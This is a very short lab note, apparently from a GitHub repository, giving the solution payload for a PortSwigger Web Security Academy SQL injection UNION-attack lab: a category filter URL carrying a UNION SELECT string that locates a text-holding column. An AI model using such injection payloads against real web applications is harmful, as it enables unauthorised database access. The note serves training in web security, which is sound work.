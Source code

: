 # Lab

https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text

## Payload

```sql
/filter?category=Accessories' UNION SELECT NULL,'BX90s2',NULL--
```